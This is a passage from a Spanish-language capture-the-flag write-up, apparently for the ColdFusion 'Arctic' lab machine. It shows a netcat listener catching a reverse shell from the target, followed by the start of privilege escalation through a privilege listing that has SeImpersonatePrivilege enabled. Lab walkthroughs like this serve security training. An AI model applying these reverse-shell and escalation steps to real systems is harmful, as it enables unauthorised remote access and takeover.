 * Y si todo va bien deberíamos recibir una petición por **GET** en el servidor web de python y debería salir el archivo dentro del directorio CFIDE

<figure><img src="../../../.gitbook/assets/rs.PNG" alt=""><figcaption></figcaption></figure>

* Lo abrimos y deberíamos de recibir la **reverse shell**

```shell
> rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.10.11] 49651
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

\> whoami
arctic\tolis

C:\ColdFusion8\runtime\bin>
```

#### Escalada de Privilegios

Ahora solo faltaría elevar de privilegios al usuario **administador**

```shell
> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```
